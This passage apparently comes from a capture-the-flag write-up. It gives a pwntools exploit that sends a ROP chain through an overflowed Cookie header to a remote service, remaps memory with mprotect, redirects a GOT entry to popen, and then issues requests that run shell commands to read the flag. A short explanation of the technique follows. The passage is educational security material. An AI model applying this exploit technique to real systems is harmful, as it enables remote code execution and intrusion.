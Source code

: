 ```python
RDX_R12_RET = libc.address+0x000000000011f2e7
RAX_RET = libc.address+0x0000000000045eb0
# mov [rdi], rax ; xor eax, eax ; ret
qwordRDI_RAX_RET = libc.address+0x0000000000042e83

rop = p64(RDI_RET)+p64(e.address) + \
    p64(RSI_RET)+p64(0xf000) + \
    p64(RDX_R12_RET)+p64(7)+p64(0) + \
    p64(libc.sym.mprotect) + \
    p64(RDI_RET)+p64(e.got.fopen) + \
    p64(RAX_RET)+p64(libc.sym.popen) + \
    p64(qwordRDI_RAX_RET) + \
    p64(RDI_RET)+p64(e.address+0x33DF) + \
    p64(RAX_RET)+b'r'+b'\0'*7 + \
    p64(qwordRDI_RAX_RET) + \
    p64(RDI_RET)+p64(e.address+0x339F) + \
    p64(RAX_RET)+b'r'+b'\0'*7 + \
    p64(qwordRDI_RAX_RET) + \
    p64(RDI_RET)+p64(9999999) + \
    p64(libc.sym.sleep)

io = remote(HOST, PORT)
io.send("""GET / HTTP/1.1
Content-Length: 0\r
Cookie: id=""".encode()+b'\0'*0x28+rop+b'\r\n')

io.close()

sleep(1)
pause()

# io = remote(HOST, PORT)
# io.send("""GET /ls HTTP/1.1
# Content-Length: 0\r
# Cookie: id=pwn\r\n""".encode())
# io.interactive()

io = remote(HOST, PORT)
io.send("""GET /cat<flag_2f5b7b1cb601ee86b4ede919f94958fd HTTP/1.1
Content-Length: 0\r
Cookie: id=pwn\r\n""".encode())

io.interactive()

p.interactive()

```

Because the client interacts with the process through a socket running on a sub-thread, so we can’t just drop the shell. I use the ROP chain to patch the binary itself (”flag” → “r” to read the flag and `strstr@got`→ `popen` to know the flag file’s name).
